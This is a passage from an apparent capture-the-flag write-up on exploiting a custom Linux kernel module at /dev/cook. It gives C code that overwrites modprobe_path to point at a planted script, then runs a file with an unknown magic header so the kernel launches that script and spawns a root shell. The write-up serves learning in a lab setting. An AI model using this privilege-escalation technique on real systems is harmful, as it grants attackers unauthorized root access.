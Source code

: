 But before starting the kernel again, I created a file named `exploit.c` that will be used to communicate with the provided kernel object in "/dev/cook."

<details open> <summary>exploit.c</summary>

```c
#include <stdio.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>

int fd;

int main(int argc, char * argv[]){
    fd = open("/dev/cook", O_RDWR);
    printf("[!] Opened fd : %d\n", fd);
  
}
``` 
</details>

Run the `compress.sh` and `run.sh` file again to recompress and start the kernel. Run the exploit binary, that located at `/exp`.

![/exp First Run](images/c86474b7920e038452c89c486e611c540ddf9ffd067d855b58906e3b11d57a1c.png)  

Based by the image above, a new file descriptor has been opened. Which means that the binary payload we created successfully communicates with the kernel object in `/dev/cook`. 

Now, how do we exploit it? As previously mentioned, the plan is to overwrite the string "/sbin/modprobe" stored in modprobe_path to point to a file "/home/blud/x" that contains a malicious command capable of granting us root permissions (`setsid cttyhack setuidgid root sh`). Then, we create a new file with an unknown extension ("\xff\xff\xff\xff"), so when a user runs that file, the kernel will execute the "/home/blud/x" file (the string we've written in modprobe_path).

Let's create a C script that will be used to create an unknown file with the extension "\xff\xff\xff\xff" in our payload program.

```c
char evil_str[]= "/home/blud/x\x00";

void prepare_hax(void)
{
    system("echo '#!/bin/sh\nsetsid cttyhack setuidgid root sh' > /home/blud/x");
    system("chmod +x /home/blud/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /home/blud/dummy");
    system("chmod +x /home/blud/dummy");
}

void get_shell(void)
{
    puts("[*] Run unknown file");
    system("/home/blud/dummy");
    
    puts("[X] PWN3D!");
}
```
